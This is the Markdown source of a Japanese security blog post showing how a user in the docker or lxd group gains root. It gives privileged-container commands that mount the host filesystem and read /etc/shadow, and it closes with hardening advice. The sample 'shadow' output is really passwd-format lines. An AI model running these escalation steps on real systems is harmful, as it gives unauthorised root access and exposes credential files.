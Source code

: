```yaml
---
layout:        post
title:         "Dockerを使った権限昇格"
date:          2021-05-23
category:      Security
cover:         /assets/cover1.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


sudoを実行できないユーザでも、dockerグループに所属していれば、Dockerを使うことで権限昇格ができるようになります。

### Docker

Dockerを使ったやりかた：

```bash
docker run --privileged -v /:/mnt/root --rm -it debian
```

- `--priviledged` はコンテナ内のプロセスをルート権限で起動するためのオプションです。
- `-v <from>:<to>` はホストOSのディレクトリを、コンテナ内にマウントします。ホストOSのルートディレクトリをマウントすることで、ホストのファイルシステム全体にアクセスできるようになります。

上記のコマンドを実行すると、ルート権限でファイルシステム全体にアクセスできます。

実行結果：

```console
$ docker run --privileged -v /:/mnt/root --rm -it debian
root:/# id
uid=0(root) gid=0(root) groups=0(root)

root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

### LXD

同様に、Linux上でコンテナを扱う LXD でも同じことができます。
sudoを実行できないユーザでも、lxdグループに所属していれば、LXDを使うことで権限昇格ができます。

LXDを使ったやりかた：

```bash
# alpineイメージのビルド
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
# 管理者権限付きで初期化
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias rootimage
lxc init rootimage ignite -c security.privileged=true
# ホストOSのルートディレクトリをコンテナにマウント
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
# コンテナの起動
lxc start ignite
lxc exec ignite /bin/sh
```

実行結果：

```console
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/etc/shadow
root:/# cat /mnt/root/etc/shadow
root:x:0:0:root:/root:/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...省略...
```

`cat /etc/group` で docker や lxd グループが存在して、そのグループに所属しているユーザがいる場合は、権限昇格ができる可能性があるので注意が必要です。
不要なユーザであればロックしたり (`usermod -L`)、ログインパスワードをより強力なものに変更するなどしましょう。


### 参考文献

- [docker \| GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
- Hack The Box - Included
